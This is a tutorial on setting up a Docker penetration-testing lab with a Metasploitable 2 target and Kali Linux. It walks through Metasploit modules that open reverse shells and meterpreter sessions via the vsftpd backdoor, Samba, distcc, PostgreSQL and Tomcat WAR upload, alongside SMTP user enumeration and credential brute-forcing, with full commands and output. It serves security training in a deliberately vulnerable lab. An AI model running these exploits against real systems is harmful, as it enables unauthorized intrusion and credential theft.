

# Using Metasploitable 2 and Kali Linux for Security Assessments

Running exploits directly on your host machine is unsafe. While
VirtualBox and Hyper-V are viable options, Docker provides a far
lighter, simpler setup.

This post shows how to set up a local Docker penetration testing lab by
creating a shared network, running a Metasploitable 2 target container,
and launching Kali Linux. It also covers several Metasploit modules you
can use against the target.

{width="400"
query="?400"}

## 1. Create a Custom Docker Network

In a terminal window, run the following command:

    docker network create pentest

## 2. Run Metasploitable 2

In the same terminal window, run the following command:

``` bash
docker run -it --name=metasploitable2 --net=pentest tleemcjr/metasploitable2 /bin/sh
```

Inside the container shell, run `services.sh` to start the vulnerable
services.

``` bash
services.sh
```

**Results**

``` bash
sh-3.2# services.sh
 * Starting web server apache2                                                                                                                              apache2: Could not reliably determine the server's fully qualified domain name, using 172.25.0.2 for ServerName
                                                                                                                                                     [ OK ]
 * Starting deferred execution scheduler atd                                                                                                         [ OK ]
 * Starting periodic command scheduler crond                                                                                                         [ OK ]
Starting distccd
 * Starting MySQL database server mysqld                                                                                                             [ OK ]
 * Checking for corrupt, not cleanly closed and upgrade needing tables.
 * Configuring network interfaces...                                                                                                                 [ OK ]
 * Starting portmap daemon...                                                                                                                        [ OK ]
 * Starting Postfix Mail Transport Agent postfix                                                                                                     [ OK ]
 * Starting PostgreSQL 8.3 database server                                                                                                           [ OK ]
 * Starting ftp server proftpd                                                                                                                       [ OK ]
Starting Samba daemons: nmbd smbd.
Starting network management services: snmpd.
 * Starting OpenBSD Secure Shell server sshd       snmpd[689]: error finding row index in _ifXTable_container_row_restore

                                                                                                                                                     [ OK ]
 * Starting system log daemon...                                                                                                                     [ OK ]
 * Starting Tomcat servlet engine tomcat5.5                                                                                                          [ OK ]
 * Starting internet superserver xinetd                                                                                                              [ OK ]
 * Doing Wacom setup...                                                                                                                              [ OK ]
 * Running local boot scripts (/etc/rc.local)                                                                                                        [ OK ]
sh-3.2# nohup: nohup: appending output to `nohup.out'
appending output to `nohup.out'
```

Tip: Use this service list to identify potential attack vectors on the
container.

## 3. Run Kali Linux

In a separate terminal window, run the following command:

``` bash
docker run -it --name=kali --net=pentest kalilinux/kali-rolling /bin/bash
```

The default Kali image is minimal. Install the required tools using:

    apt update && apt install nmap net-tools metasploit-framework -y

## 4. Start Up Metasploit Framework Console

    msfconsole

NOTE: If you are running msfconsole for the first time, you must set it
up.

Scan the `metasploitable2` container for open ports and vulnerabilities:

    nmap -sV -A 172.25.0.2

## 5. Run Metasploit Exploits

### a. VSFTPD 2.3.4 Backdoor Command Execution

This module exploits a malicious backdoor that was added to the VSFTPD
download archive.

1.  Load the module by running
    `use exploit/unix/ftp/vsftpd_234_backdoor`.
2.  View the required parameters by running `show options`.
3.  Set the target IP address using `set RHOSTS <target-ip>`.
4.  Set the local IP address using `set LHOST <local-ip>`.
5.  Launch the attack by typing `exploit` or `run`.

**Results**

``` bash
msf exploit(unix/ftp/vsftpd_234_backdoor) > run
[*] Started reverse TCP handler on 172.25.0.3:4444
[*] 172.25.0.2:21 - Running automatic check ("set AutoCheck false" to disable)
[*] 172.25.0.2:21 - FTP banner hints its vulnerable: 220 (vsFTPd 2.3.4)
[+] 172.25.0.2:21 - The target appears to be vulnerable. vsftpd 2.3.4 banner detected; backdoor may be present
[+] 172.25.0.2:21 - Backdoor has been spawned!
[*] Meterpreter session 7 opened (172.25.0.3:4444 -> 172.25.0.2:51486) at 2026-07-31 01:27:23 +0000

meterpreter > ls
Listing: /
==========
```

### b. Samba "username map script" Command Execution

The Metasploit Framework module exploit/multi/samba/usermap_script
targets CVE-2007-2447, a command injection flaw in Samba versions 3.0.20
through 3.0.25rc3. It allows unauthenticated remote code execution with
root privileges.

1.  Select the module using `use exploit/multi/samba/usermap_script`.
2.  View required settings with `show options`.
3.  Set the target IP address using `set RHOSTS <target-ip>`.
4.  Choose a payload, such as a reverse shell
    (`set PAYLOAD cmd/unix/reverse_netcat`).
5.  Execute the exploit using the `exploit` or `run` command.

**Results**

``` bash
msf exploit(multi/samba/usermap_script) > run
[*] Started bind TCP handler against 172.25.0.2:4444
[*] Command shell session 8 opened (172.25.0.3:34815 -> 172.25.0.2:4444) at 2026-07-31 01:30:01 +0000


Shell Banner:
sh: no job control in this shell
sh-3.2#
-----


sh-3.2#
```

### c. Postfix Mail Transport Agent

On Metasploitable 2, the Postfix mail transport agent runs on port 25
and is vulnerable to user enumeration via exposed SMTP commands like
VRFY.

1.  Select the enumeration tool with
    `use auxiliary/scanner/smtp/smtp_enum`.
2.  Target the machine by running `set RHOSTS <target-ip>`.
3.  Set the target port using `set RPORT 25`.
4.  Execute the module with `run` to discover valid system usernames
    (such as bin, daemon, and backup).

**Results**

    [*] 172.25.0.2:25         - 172.25.0.2:25 Banner: 220 metasploitable.localdomain ESMTP Postfix (Ubuntu)
    [+] 172.25.0.2:25         - 172.25.0.2:25 Users found: , backup, bin, daemon, distccd, ftp, games, gnats, irc, libuuid, list, lp, mail, man, mysql, news, nobody, postfix, postgres, postmaster, proxy, service, sshd, sync, sys, syslog, user, uucp, www-data
    [*] 172.25.0.2:25         - Scanned 1 of 1 hosts (100% complete)

### d. Exploiting distcc

Exploiting distcc on Metasploitable 2 involves targeting a misconfigured
distributed compiler daemon on port 3632 that allows remote command
execution (CVE-2004-2687).

1.  Choose the distcc execution exploit by typing
    `use exploit/unix/misc/distcc_exec`.
2.  Define the remote host IP address of your Metasploitable 2 instance
    using `set RHOSTS <target-ip>`.
3.  Select a command or reverse shell payload, such as
    `set PAYLOAD cmd/unix/reverse` or a generic command like ''set CMD
    'id' ''. - Type ''exploit'' or `run` to execute the code and gain a
    shell on the target system.

**Results**

``` bash
msf exploit(unix/misc/distcc_exec) > run
[*] Started reverse TCP double handler on 172.25.0.3:4444
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 2FWITq0bhSIzPVdx;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "2FWITq0bhSIzPVdx\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 6 opened (172.25.0.3:4444 -> 172.25.0.2:40496) at 2026-07-31 01:24:28 +0000

ls
1582.jsvc_up
1823.jsvc_up
810.jsvc_up
816.jsvc_up
826.jsvc_up
prbebv
```

### e. PostgreSQL for Linux Payload Execution

The postgres service account often has write access to `/tmp` and can
load UDF Shared Libraries from it, enabling arbitrary code execution.

1.  Select the module using
    `use exploit/linux/postgres/postgres_payload`.
2.  Set the target IP using `set RHOSTS <target-ip>`.
3.  Set the local IP using `set LHOST <local-ip>`.
4.  Execute the module with `run`.

``` bash
msf exploit(linux/postgres/postgres_payload) > run
[*] Started reverse TCP handler on 172.25.0.3:4444
[*] 172.25.0.2:5432 - 172.25.0.2:5432 - PostgreSQL 8.3.1 on i486-pc-linux-gnu, compiled by GCC cc (GCC) 4.2.3 (Ubuntu 4.2.3-2ubuntu4)
[*] 172.25.0.2:5432 - Uploaded as /tmp/YmCmlzFb.so, should be cleaned up automatically
[*] Sending stage (1062760 bytes) to 172.25.0.2
[*] Meterpreter session 9 opened (172.25.0.3:4444 -> 172.25.0.2:56312) at 2026-08-01 01:22:29 +0000

meterpreter >
```

### f. VNC Authentication Scanner

Scanning and checking VNC authentication on Metasploitable 2 involves
using Metasploit auxiliary scanner modules like vnc_login or vnc_none on
TCP port 5900.

1.  Select the module using `use auxiliary/scanner/vnc/vnc_login`.
2.  Set the target IP using `set RHOSTS <target-ip>`.
3.  Execute the module with `run`.

**Results**

``` bash
msf auxiliary(scanner/vnc/vnc_login) > run
[*] 172.25.0.2:5900       - 172.25.0.2:5900 - Starting VNC login sweep
[!] 172.25.0.2:5900       - No active DB -- Credential data will not be saved!
[+] 172.25.0.2:5900       - 172.25.0.2:5900 - Login Successful: :password
[*] 172.25.0.2:5900       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### g. Apache Tomcat - tomcat_mgr_login

This module performs a brute-force credential scan against the Apache
Tomcat Manager interface running on port 8180.

1.  Select the module using
    `use auxiliary/scanner/http/tomcat_mgr_login`.
2.  Set the target IP using `set RHOSTS <target-ip>`.
3.  Set the remote port using `set RPORT 8180`.
4.  Execute the module with `run` to find valid credentials
    (tomcat:tomcat).

**Results**

``` bash
msf auxiliary(scanner/http/tomcat_mgr_login) > run
[!] No active DB -- Credential data will not be saved!
[-] 172.25.0.2:8180 - LOGIN FAILED: admin:admin (Incorrect)
[-] 172.25.0.2:8180 - LOGIN FAILED: admin:manager (Incorrect)
[-] 172.25.0.2:8180 - LOGIN FAILED: admin:role1 (Incorrect)
[-] 172.25.0.2:8180 - LOGIN FAILED: admin:root (Incorrect)
[-] 172.25.0.2:8180 - LOGIN FAILED: admin:tomcat (Incorrect)
[-] 172.25.0.2:8180 - LOGIN FAILED: tomcat:manager (Incorrect)
[-] 172.25.0.2:8180 - LOGIN FAILED: tomcat:role1 (Incorrect)
[-] 172.25.0.2:8180 - LOGIN FAILED: tomcat:root (Incorrect)
[+] 172.25.0.2:8180 - Login Successful: tomcat:tomcat
[-] 172.25.0.2:8180 - LOGIN FAILED: both:admin (Incorrect)
[-] 172.25.0.2:8180 - LOGIN FAILED: both:manager (Incorrect)
...
```

### h. Apache Tomcat - tomcat_mgr_upload

This module uses valid Tomcat Manager credentials to upload and execute
a malicious WAR payload for remote code execution.

1.  Select the module using `use exploit/multi/http/tomcat_mgr_upload`.
2.  Set the target IP using `set RHOSTS <target-ip>`.
3.  Set the remote port using `set RPORT 8180`.
4.  Set the HttpUsername (found in the previous step) using
    `set HttpUsername tomcat`.
5.  Set the HttpPassword (found in the previous step) using
    `set HttpPassword tomcat`.
6.  Execute the module with `run`.

**Results**

``` bash
msf exploit(multi/http/tomcat_mgr_upload) > run
[*] Started reverse TCP handler on 172.25.0.3:4444
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying 1m38iJjWeDRtt...
[*] Executing 1m38iJjWeDRtt...
[*] Undeploying 1m38iJjWeDRtt ...
[*] Undeployed at /manager/html/undeploy
[*] Sending stage (58073 bytes) to 172.25.0.2
[*] Meterpreter session 10 opened (172.25.0.3:4444 -> 172.25.0.2:37177) at 2026-08-01 20:00:54 +0000

meterpreter >
```

## References

- <https://medium.com/@damipedia/building-your-first-cybersecurity-lab-with-docker-a-beginners-guide-to-setting-up-a-vulnerable-5222f5563884>
- <https://hub.docker.com/r/tleemcjr/metasploitable2>
- <https://www.kali.org/docs/containers/using-kali-docker-images/>
- <https://westoahu.hawaii.edu/cyber/forensics-weekly-executive-summmaries/8424-2/>
- <https://medium.com/@uukail2005/samba-smbd-3-x-4-x-exploitation-59a8d9431ea1>
- <https://www.geeksforgeeks.org/ethical-hacking/smtp-enumeration/>
- <https://medium.com/@Newbeee/mysql-enumeration-using-metasploit-msfconsole-a-practical-lab-walkthrough-a94c25e0cbde>
- <https://shhmyr.medium.com/metasploitable-2-security-assessment-five-practical-exploitation-scenarios-54e548412e7a>
- <https://www.rapid7.com/db/modules/exploit/unix/misc/distcc_exec/>
- <https://www.offsec.com/metasploit-unleashed/scanner-smtp-auxiliary-modules/>
- <https://medium.com/@jai38100/hardening-metasploitable-2-52ec0adf48f2>
- <https://medium.com/@Aditya_2_1/hac-metasploitable-2-a-step-by-step-exploitation-guide-d87607e1d995>
